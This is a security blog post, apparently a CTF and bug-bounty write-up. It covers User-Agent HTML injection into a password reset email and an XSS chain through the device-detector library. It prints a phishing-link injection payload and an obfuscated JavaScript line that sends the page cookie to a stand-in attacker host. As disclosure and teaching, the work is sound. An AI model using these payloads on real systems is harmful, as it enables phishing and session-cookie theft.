

## From Bug Bounty to CTF Challenge

2026-01-01<br/>
by [Sandro Bauer](https://sandr0.xyz)

### Preamble

In October 2024 I found a HTML Injection in the password reset E-Mail from Personio (PERSONIO-O5I48A8V).

The bug allowed me to inject HTML contents via my User-Agent into the E-Mail template.

I was able to transform



into this


adding a malicious link to a completely valid E-Mail.

During the research into this bug I found that they were using `matomo-org/device-detector`[^device-detector] and searched for arbitrary injections in the regex matching of the tool and found a possible arbitrary 1-byte inject in 4 operating systems in `/regexes/oss.yml` which was not usable at the time as well as a very open one in `/regexes/client/mobile_apps.yml`: `appname/([^/; ]*)`.

Injection at the time:

```python
"User-Agent": '''appname/Web<br><br><br><a\x09href="https:&#47&#47example.com&#47reset-password">Wenn\x09Ihnen\x09diese\x09Aktivit&aumlt\x09nicht\x09bekannt\x09ist,\x09klicken\x09Sie\x09auf\x09diesen\x09Link\x09und\x09setzen\x09sie\x09Ihr\x09Passwort\x09zur&uumlck<br><br><!--''',
```

My submission was reduced to a Low vulnerability, as apparently HTML Injections are not very security relevant on Intigriti.

After the Bug Bounty report was finished, I searched for similar bugs using `matomo-org/device-detector`[^device-detector] in public GitHub repositories. In my research I found a similar bug in `tirreno`[^tirreno] which I reported it in January 2025 and wrote a blog post about in March 2025[^tirreno-report].

### CatGPT

In December 2025, we organized our latest CTF at 39C3 where I used the 1-byte inject to create the challenge CatGPT[^catgpt].

In the challenge, the data from `matomo-org/device-detector`[^device-detector] is reflected in JS context, but properly escaped (except for OS version).

Target Script:

```html
<script>
new gridjs.Grid({
    columns: ['Timestamp', 'Device', 'OS', 'Client', 'Raw'],
    sort: true,
    resizable: true,
    data: [
        <?php foreach ($rows as $row): ?>
        ["<?= $row["created_at"] ?>", gridjs.html('<i class="<?= [
            "desktop" => "fa-solid fa-computer",
            "smartphone" => "fa-solid fa-mobile-screen",
            "tablet" => "fa-solid fa-tablet-screen-button",
            "feature phone" => "fa-solid fa-mobile-screen",
            "console" => "fa-solid fa-gamepad",
            "tv" => "fa-solid fa-tv",
            "car browser" => "fa-solid fa-car",
            "smart display" => "fa-solid fa-desktop",
            "camera" => "fa-regular fa-camera",
            "portable media player" => "fa-solid fa-circle-play",
            "phablet" => "fa-solid fa-tablet-screen-button",
            "smart speaker" => "fa-solid fa-headphones",
            "wearable" => "fa-regular fa-clock",
            "peripheral" => "fa-solid fa-computer-mouse",
        ][$row["device_name"]] ?>"></i>'), "<?= htmlspecialchars($row["os_name"]) . " " . $row["os_version"] ?>", "<?= htmlspecialchars($row["client_name"]) . " " . $row["client_version"] ?>",""],
        <?php endforeach; ?>
    ]
}).render(document.getElementById('table'));

[...]

let clientChart = echarts.init(document.getElementById('clientChart'));
clientChart.setOption({
    title: {
        text: 'Client Name Distribution',
        left: 'center'
    },
    tooltip: tooltip,
    series: [{
        type: 'pie',
        radius: '60%',
        data: <?= json_encode($clientCount) ?>,
    }]
});
</script>
```

The solution is as follows:

By using the before mentioned 1-byte injection in the operating system `moonOS`, we can inject `\` into the OS version to break out of the String context (shortened):

```html
<script>
new gridjs.Grid({
    columns: ['Timestamp', 'Device', 'OS', 'Client', 'Raw'],
    sort: true,
    resizable: true,
    data: [
!!        ["date", gridjs.html('<i class="fa-solid fa-computer"></i>'), "moonOS \", "<?= htmlspecialchars($row["client_name"]) . " " . $row["client_version"] ?>",""],
    ]
}).render(document.getElementById('table'));

[...]

</script>
```

This breaks the JS context and allows us to now properly inject in `client_name`.

Using the generic app regex in `/regexes/client/mobile_apps.yml`

```yaml
# Generic app
- regex: 'AppVersion/([\d.]+).+appname/((?!\(null\))[^/; ]*)'
  name: '$2'
  version: '$1'
```

We can add a client with almost everything we need. Because `htmlspecialchars` is used, we can write proper JS code, but cannot finish the line with a properly working string. Through the match not allowing `/` the line can also not ended with a comment as usually feasible in this case.

It is possible to use a multiline String by adding `` ` `` in the `client_name` as this is not escaped by `htmlspecialchars`. The String will be then terminated in the `json_encode` below. `json_encode` does not escape HTML characters like `<>` so we can use a perk of the HTML spec[^spec]. We can therefore inject a HTML comment `<!--` into the `json_encode`d part. Previous to the creation of this challenge I was myself not aware of the `<!--` trick.

Full exploit visualized:

```html
<script>
new gridjs.Grid({
    columns: ['Timestamp', 'Device', 'OS', 'Client', 'Raw'],
    sort: true,
    resizable: true,
    data: [
!!        ["date", gridjs.html('<i class="fa-solid fa-computer"></i>'), "moonOS \", ",injected_js_code,`],{{<!--",""],
    ]
}).render(document.getElementById('table'));

[...]

let clientChart = echarts.init(document.getElementById('clientChart'));
clientChart.setOption({
    title: {
        text: 'Client Name Distribution',
        left: 'center'
    },
    tooltip: tooltip,
    series: [{
        type: 'pie',
        radius: '60%',
!!        data: [",injected_js_code,`],{{<!--"],
    }]
});
</script>
```

For `injected_js_code`, there exist multipe ways which extract either the cookie, or the content of the page which both results in the flag.

I used

```
window.location.href=String.fromCharCode(0x68,0x74,0x74,0x70,0x3a,0x2f,0x2f,0x61,0x74,0x74,0x61,0x63,0x6b,0x65,0x72,0x5f,0x69,0x70,0x3f,0x63,0x6f,0x6f,0x6b,0x69,0x65,0x3d)document.cookie
```

which just forwards the cookie.

Interestingly enough, it was one of the challenges LLMs were not able to solve. My explanation for this is that one payload was interpreted in multiple contexts in addition with the solution requiring to add a HTML comment inside JS code.

## Aftermath

My PR[^pr] fixing the arbitrary (and also wrong) match in Pardus, RokuOS and moonOS was merged in January 2026.


[^device-detector]: <https://github.com/matomo-org/device-detector>
[^tirreno]: <https://github.com/tirrenotechnologies/tirreno>
[^tirreno-report]: <https://sandr0.xyz/blog/2025-03-tirreno>
[^catgpt]: <https://2025.ctf.link/internal/challenge/215a7124-8c97-49e3-9979-b2eeee05b572/>
[^spec]: <https://html.spec.whatwg.org/multipage/scripting.html#restrictions-for-contents-of-script-elements>
[^pr]: <https://github.com/matomo-org/device-detector/pull/8218>
